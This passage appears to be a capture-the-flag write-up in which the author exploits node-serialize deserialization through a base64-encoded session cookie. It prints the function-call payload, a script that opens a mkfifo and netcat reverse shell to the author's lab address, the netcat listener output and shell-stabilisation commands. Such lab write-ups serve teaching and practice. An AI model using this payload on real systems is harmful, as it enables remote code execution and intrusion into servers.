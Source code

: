I base64 encoded the output, then used Burp Repeater to send it as my session cookie.
> We'll keep you updated at: function(){

The code did not get executed. I added `()` at the end of the function definition to get it executed when it got deserialized. And this time it worked.

```
{"email":"_$$ND_FUNC$$_function(){\n\t    return 1;\n    }()"}
```

> We'll keep you updated at: 1

Now that I knew I could get remote code execution, I started a netcat listener on my machine.
```bash
$ nc -lvnp 4444
```

I modified the script to open a reverse shell.

```bash
$ cat test.js
var y = {
    email: function(){
        require('child_process').exec('mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg');
            return 1;
    },
}
var serialize = require('node-serialize');
console.log(serialize.serialize(y));

$ node test.js | sed 's/}"/}()"/g' | base64 -w0
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuICAgICAgICByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnbWtmaWZvIC90bXAva2lyeGhiZzsgbmMgMTAuMTMuMy4zNiA0NDQ0IDA8L3RtcC9raXJ4aGJnIHwgL2Jpbi9zaCA+L3RtcC9raXJ4aGJnIDI+JjE7IHJtIC90bXAva2lyK
```
I sent that payload as the session cookie. And I got a hit on my netcat listener.

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.225.67 46852
whoami
dylan
```

I stabilized my shell to make it easier to work in it. 
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
# CTRL-z
$ stty raw -echo;fg
```

And I got the first flag. 

```bash
dylan@jason:/opt/webapp$ cd
dylan@jason:~$ ls
user.txt
dylan@jason:~$ cat user.txt
REDACTED
```

